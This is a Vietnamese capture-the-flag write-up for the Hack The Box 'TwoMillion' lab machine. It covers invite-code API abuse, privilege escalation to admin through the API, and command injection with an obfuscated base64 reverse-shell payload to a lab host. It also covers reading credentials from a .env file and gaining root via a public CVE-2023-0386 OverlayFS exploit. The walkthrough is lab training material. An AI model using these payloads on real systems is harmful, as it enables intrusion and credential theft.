## Task 1




> 2
## Task 2


Chúng ta truy cập trang và vào phần `Join HTB` và mở source code


> inviteapi.min.js
## Task 3


Chúng ta mở `inviteapi.min.js` để đọc xem nội dung là gì. Tuy nhiên nó đang được obfuscated nên chúng ta cần convert sang 1 dạng dễ đọc hơn.


Sau khi đi tìm hiểu chúng ta có thể deofuscated bằng cách thay `eval()` bằng `console.log()`. Kết quả nhận được sẽ dễ đọc hơn 1 chút


Chúng ta đưa qua thêm 1 lớp beautify nữa
```bash
function verifyInviteCode(code) {
	var formData = { 'code': code };
	$.ajax({
		type: 'POST',
		dataType: 'json',
		data: formData,
		url: '/api/v1/invite/verify',
		success: function (response) {
			console.log(response);
		},
		error: function (response) {
			console.log(response);
		}
	});
}
function makeInviteCode() {
	$.ajax({
		type: 'POST',
		dataType: 'json',
		url: '/api/v1/invite/how/to/generate',
		success: function (response) {
			console.log(response);
		},
		error: function (response) {
			console.log(response);
		}
	});
}
```

> makeInviteCode
## Task 4


Chúng ta thử request vào endpoint xem có gợi ý gì không 
```bash
curl -X POST -L http://10.129.229.66/api/v1/invite/how/to/generate
```


Dữ liệu trả về được mã hoá dưới dạng ROT13 vì vậy chúng ta tiến hành decryt thì được nội dung


Chúng ta tiếp tục request đến endpoint này
```bash
curl -X POST -L http://10.129.229.66/api/v1/invite/generate
```


Chúng ta để ý code được kết thúc bằng `=` là một dấu hiệu của base64 encoded


> Base64
## Task 5


Chúng ta đã có được code mời rồi giờ sử dụng


Chúng ta tìm thử một số function thì chỉ có access là hoạt động


Chúng ta mở thử burp và nhấn vào nút này thử


> /api/v1/user/vpn/generate
## Task 6


Chúng ta thử truy cập vào đường dẫn `/api/v1`


> 3
## Task 7


> /api/v1/admin/settings/update
## Task 8


> /api/v1/admin/vpn/generate
## Task 9


Bây giờ chúng ta xác định được function admin có khả năng bị injection và update có thể change account nên tiến hành nâng quyền admin trước tiên.
### Kiểm tra user hiện tại
Thực hiện GET vào `/api/v1/user/auth`


### Chỉnh sửa thử thông tin của test
Thực hiện PUT vào /api/v1/admin/settings/update

Lúc này user `test` của chúng ta đã có quyền admin, kiểm tra lại cho chắc bằng đường dẫn `/api/v1/admin/auth`
## User Flag
Như đã biết `/api/v1/admin/vpn/generate` có khả năng bị command injection nên giờ chúng ta thử POST vào đó xem sao

 Giờ thì chúng ta chèn thử payload
 ```
 test;id
 ```
 Kết quả trả về 200 nhưng không có gì, khả năng sau câu lệnh vẫn còn command nên bị lỗi
 ```
 test;id;
 ```
 
 Chúng ta thử một lệnh reverse shell
 ```
test;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNDUvNDQ0NCAwPiYx | base64 -d | bash;
 ```
 

> .env
## User Flag
Chúng ta đọc thử file `.env` 

Chúng ta thu được account 
```
admin / SuperDuperPass123
```
Thử SSH bằng account này

## Task 11


Chúng ta thử list file /var/mail thì có một file admin



>ch4p@2million.htb
## Task 12

### CVE-2023-0386
### Cơ chế lỗi
A flaw was found in the Linux kernel, where unauthorized access to the execution of the setuid file with capabilities was found in the Linux kernel's OverlayFS subsystem in how a user copies a capable file from a nosuid mount into another mount. This uid mapping bug allows a local user to escalate their privileges on the system.
### Giải thích đơn giản
OverlayFS cho phép "chồng" nhiều thư mục lên nhau thành một filesystem thống nhất. Lỗi nằm ở cách kernel xử lý khi **copy file giữa các mount**:
1. Attacker tạo file với **SUID bit** + **owner root** trên một nosuid mount (ví dụ FUSE filesystem)
2. Khi file này được copy qua OverlayFS sang mount khác, kernel **giữ nguyên metadata** (owner root + SUID bit) thay vì strip SUID
3. Kết quả: unprivileged user có file SUID root → chạy file đó → **root shell**
Bình thường kernel phải strip SUID bit khi unprivileged user copy file, nhưng OverlayFS bỏ qua kiểm tra này → bug.
## Root Flag
Chúng ta download các PoC và sử dụng
```bash
# Trên Kali
git clone https://github.com/sxlmnwb/CVE-2023-0386
zip -r cve.zip CVE-2023-0386
scp cve.zip admin@2million.htb:/tmp

# Trên Target
cd /tmp 
unzip cve.zip
cd CVE-2023-0386/ 
make all
```

Sau khi build thành công chúng ta sẽ chạy
```
./fuse ./ovlcap/lower ./gc &
./exp
```
